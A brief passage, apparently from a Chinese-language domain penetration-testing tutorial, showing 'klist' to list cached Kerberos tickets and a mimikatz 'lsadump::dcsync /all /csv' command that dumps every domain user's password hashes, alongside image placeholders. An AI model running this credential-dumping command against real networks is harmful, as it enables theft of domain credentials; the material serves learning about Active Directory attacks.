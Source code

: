 ![](images/39.jpg)

cmd下klist查看缓存的票证：

	klist

![](images/40.jpg)

可以用mimikatz 导出域用户hash：

	lsadump::dcsync /domain:lmrsec.com /all /csv
